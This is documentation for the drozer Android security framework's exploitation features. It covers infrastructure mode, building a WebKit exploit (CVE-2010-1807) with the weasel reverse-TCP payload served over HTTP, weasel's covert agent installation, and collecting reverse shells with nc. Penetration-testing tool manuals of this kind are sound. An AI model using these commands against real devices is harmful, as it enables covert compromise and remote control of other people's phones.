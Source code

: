 ```yaml
---
layout: drozer-guide
title: "Exploitation features in drozer"
description: abcde
categories:
  - drozer
  - usage
tags:
---
```


## Exploitation features in drozer

drozer offers features to help deploy a drozer agent onto a remote device, through means of exploiting applications
on the device or performing attacks that involve a degree of social engineering. drozer provides a framework for sharing of exploits and reuse of high quality payloads. It provides modules that allow the generationof shell code for use in exploits in order to help gain access to sensitive data on the remotely compromised device. 

### Infrastructure Mode

Up until now you’ve probably been running drozer in “direct mode” where you run the agent’s embedded server 
and connect directly to it. This is handy for devices connected via adb, or on your local Wi-Fi network.
drozer supports another mode of operation: “infrastructure mode”. In infrastructure mode, you run a drozer 
server either on your network or on the Internet that provides a rendezvous point for your consoles and agents, 
and routes sessions between them. 
Since infrastructure mode establishes an outbound connection from the device, it is also useful for situations
where you do not know the IP address of the device, or you need to traverse NAT or firewalls.

#### Running a drozer server

To run a drozer server, you need a machine with drozer installed that is accessible by both the mobile device and the PC running your console. 
Then simply execute:

```
$ drozer server start
```

#### Connecting an Agent

To cause your agent to connect to the server, you must add its details as an ‘Endpoint’. On the device:

1. Start the drozer Agent, press the menu button, and choose ‘Settings’. 
2. Select ‘New Endpoint’. 
3. Set the ‘Host’ to the hostname or IP address of your server. 
4. Set the ‘Port’ to the port your server is running on, unless it is the standard
5. Press ‘Save’ (you may need to press the menu button on older devices). If you navigate back to the main screen, you should see your endpoint under the drozer logo. Select it and enable it in the same way as you would start the embedded server.

#### Connecting a console

You are now ready to connect your console to the server. First, you will need to check which, if any, devices are connected:

```
$ drozer console devices --server myserver:31415 
List of Bound Devices 

Device ID          Manufacturer        Model           Software 
67dcdbacd1ea6b60   unknown             sdk             4.1.2
67dcdbacd1ea6b61   unknown             sdk             4.2.0
```
Where “myserver” is the hostname or IP address of your drozer server. 
This shows that we have two devices connected, running different version of Jellybean. You can specify which to use by giving its Device ID when starting the console:

```
$ drozer console connect 67dcdbacd1ea6b60 --server myserver:31415 
...
dz>
```

#### drozer Server and Exploitation

The drozer server is crucial for exploitation because it acts as many servers in one: 

* **drozerp:**	if a drozer agent connects, it uses drozer’s custom binary protocol 
* **HTTP:** 	    if a web browser connects, it serves resources over HTTP 
* **bytestream:**	if a particular byte is sent at the beginning of a transmission, it streams a resource in response
* **shell server:** 	if a ‘S’ (0x53) is sent as the first byte, the connection is cached as a bind shell 
drozer makes use of this server throughout exploitation to host the resources required to successfully complete 
the exploit and deploy an agent to a device and to receive connections from compromised devices.

### Exploits

drozer exploit templates and shellcode are special types of drozer modules. They are combined by the `drozer 
exploit` command to create a full exploit:

```
$ drozer exploit build EXPLOIT SHELLCODE [OPTIONS]
```

The available exploits can be listed by running:
```
$ drozer exploit list
exploit.remote.webkit.nanparse
 Webkit Invalid NaN Parsing (CVE-2010-1807)
...
```

Likewise, to see available shellcode:

```
$ drozer shellcode list
shell.reverse_tcp.armeabi Establish a reverse TCP Shell (ARMEABI)
weasel.reverse_tcp.armeabi weasel through a reverse TCP Shell (ARMEABI)
```
Putting this together, we can build an exploit for CVE-2010-1807, that uses weasel (MWR’s advanced payload) to
gain a foothold on an old Android 2.1 device:

```
$ drozer exploit build exploit.remote.webkit.nanparse –-payload weasel.reverse_tcp.armeabi
--server 10.0.2.2:31415 --push-server 127.0.0.1:31415 --resource /home.html
Uploading weasel to /weasel and W... [ OK ]
Uploading the Agent to /agent.apk and A... [ OK ]
Uploading Exploit to /home.html... [ OK ]
Done. The exploit is available at: http://10.0.2.2:31415/home.html
```

Point a vulnerable device at the exploit address in its web browser, and shortly afterwards you will have a
connection back from the exploit:

```
$ drozer console devices
List of Bound Devices
Device ID Manufacturer Model Software
9265590285227392218 unknown unknown unknown
```

The abnormally long Device ID, and ‘unknown’ in all other fields, suggests that this is a lightweight agent, and
we haven’t successfully installed a full drozer agent.

### Weasel

Previously, we saw how weasel was able to deploy a lightweight agent onto a vulnerable device.
weasel is drozer’s advanced payload to automatically gain maximum leverage on a compromised device.
Here’s what happens:

1. The vulnerable device is exploited (in some way).
2. The exploit runs shell code that establishes a reverse TCP shell connection to the drozer server.
3. The payload sends a ‘W’ (0x57) to the drozer server to indicate that it would like the weasel stager
sequence to be executed.
4. The drozer server delivers shell commands to install and start weasel.
5. weasel tries a number of techniques to run a drozer agent.

Depending on what weasel was able to do to escalate privileges, you will receive a connection from either a full
agent, a limited agent or just a normal reverse shell.

#### Full Agent

If weasel was able to install a package, you will receive a connection from a full drozer agent. This is identical
to the agent that you will have been using so far, but does not display a GUI to the device’s owner.

#### Limited Agent

If weasel was not able to install a package, it may still be able to run a version of the drozer agent. This is the
full agent, but does not have access to any ‘Application Context’. This prevents it from interacting directly with
parts of the runtime, such as the Package Manager so you cannot interact with other packages or their IPC
endpoints. If you are given a limited agent, drozer will automatically hide the modules it is unable to run from
the ‘list’ command.

#### Reverse Shell

If drozer was not able to execute even a limited agent, it will provide a normal Linux shell to the drozer server.
You can collect these shells by connecting to the server with netcat, and sending a single line that says
‘COLLECT’:

```
$ nc myserver 31415
COLLECT
drozer Shell Server
-------------------
There is 1 shell waiting...
1) 127.0.0.1:54214
Shell: 1
/system/bin/id
uid=10058(u0_a58) gid=10058(u0_a58) groups=1028(sdcard_r),3003(inet)
```